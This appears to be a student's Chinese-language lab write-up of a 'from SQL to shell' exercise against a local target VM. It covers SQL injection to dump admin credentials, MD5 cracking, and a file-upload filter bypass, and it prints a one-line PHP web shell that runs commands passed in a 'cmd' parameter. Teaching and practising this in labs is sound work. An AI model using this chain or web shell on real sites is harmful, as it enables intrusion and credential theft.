

# 实验三	from sql to shell

## 基础环境搭建

* 攻击者主机环境：
  * host-only
  * 
* 网站服务器ip
  * 

## 实验过程

* 攻击者主机浏览器设置代理

  * 
  * 访问靶机192.168.137.69
    * 
  * 使用burpsuite截获通信数据,得到服务器的版本及php版本信息
    * 

* 检测SQL注入

  * 


  * 
  * 我们可以看到id=1和id=2-1结果相同，sql语句被直接执行，猜测后台直接使用拼接方式执行sql语句，sql注入可行。

* 进行SQL注入

  * 执行union select ，只有当列数和数据库中列数相同时，不会报错。进行多次测试，发现当列数为4时不会报错。
    * 
    * 
  * 查看数据库版本信息
    * 把其中一个列数换位@@version即可显示版本信息
    * 
  * 同理查看当前用户
    * 
  * 查看所有表名
    * 
  * 查看user表中的用户名和密码
    * 
    * 获得密码后，使用在线md5解密
      * 
    * 使用用户名密码成功登录管理员账户，在这里可以上传文件。
      * 

* 文件上传漏洞

  * 尝试上传php脚本，发现当前网站不允许直接上传后缀名为.php的文件

    * 

  * 通过直接修改文件后缀名绕过php过滤。

    * php文件：

      * ```php
        <?php
             system($_GET['cmd']);
        ?>
        ```

      * 查看源代码可以从‘‘’’中看到php文件存储路径：

        * 
        * 点击进入页面。构造输入串‘’cmd=ls‘’，实现直接在浏览器端显示当前文件夹下所有文件。除此之外，还可以执行其他cmd命令。
          * 
